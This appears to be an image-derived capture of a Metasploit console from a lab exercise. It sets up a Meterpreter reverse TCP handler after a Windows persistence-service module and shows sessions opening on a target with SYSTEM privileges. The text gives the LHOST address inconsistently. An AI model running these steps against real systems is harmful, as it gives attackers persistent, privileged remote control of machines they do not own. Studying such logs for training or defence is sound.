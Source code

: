 ```
msf6 exploit(windows/local/persistence_service) > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > set LHOST eth1
LHOST => 10.10.16.2
```

Target IP Address : 10.0.25.213

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.3:4444 
[*] Sending stage (175174 bytes) to 10.0.25.213
[*] Meterpreter session 3 opened (10.10.16.3:4444 -> 10.0.25.213:49284) at 2023-02-27 21:05:57 +0530

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-OMCNBKR66MN
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 10.0.25.213 - Meterpreter session 3 closed.  Reason: User exit
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.3:4444 
[*] Sending stage (175174 bytes) to 10.0.25.213
[*] Meterpreter session 4 opened (10.10.16.3:4444 -> 10.0.25.213:49293) at 2023-02-27 21:07:56 +0530

meterpreter > 
```